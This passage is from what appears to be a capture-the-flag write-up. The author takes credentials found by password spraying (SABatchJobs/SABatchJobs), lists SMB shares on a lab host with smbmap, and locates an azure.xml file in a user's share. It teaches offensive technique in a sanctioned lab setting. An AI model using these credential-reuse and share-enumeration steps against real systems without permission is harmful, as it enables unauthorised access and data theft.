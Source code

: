 

I got a match! The rest were fails (snipped above), but one is all I
need.

### SMB with Creds - TCP 445

`smbmap` tells me what shares there are and what I have access to
(output cleaned up a bit):



    root@kali# smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
    [+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            ADMIN$                                                  NO ACCESS       Remote Admin
            azure_uploads                                           READ ONLY
            C$                                                      NO ACCESS       Default share
            E$                                                      NO ACCESS       Default share
            IPC$                                                    READ ONLY       Remote IPC
            NETLOGON                                                READ ONLY       Logon server share 
            SYSVOL                                                  READ ONLY       Logon server share 
            users$                                                  READ ONLY



I looked through each share. I can connect with `smbclient` and poke
around, or use `smbmap` to list out files. Either way, I find something
interesting in the `users$` share:



    root@kali# smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R 'users$'
    [+] Finding open SMB ports....
    [+] User SMB session established on 10.10.10.172...
    [+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
            Disk                                                    Permissions     Comment
            ----                                                    -----------     -------
            .                                                  
            dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
            dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
            dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
            dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
            dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
            dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
            users$                                                  READ ONLY
            .\
            dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
            dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
            dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
            dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
            dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
            dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
            .\mhope\
            dr--r--r--                0 Fri Jan  3 08:41:18 2020    .
            dr--r--r--                0 Fri Jan  3 08:41:18 2020    ..
            -w--w--w--             1212 Fri Jan  3 09:59:24 2020    azure.xml
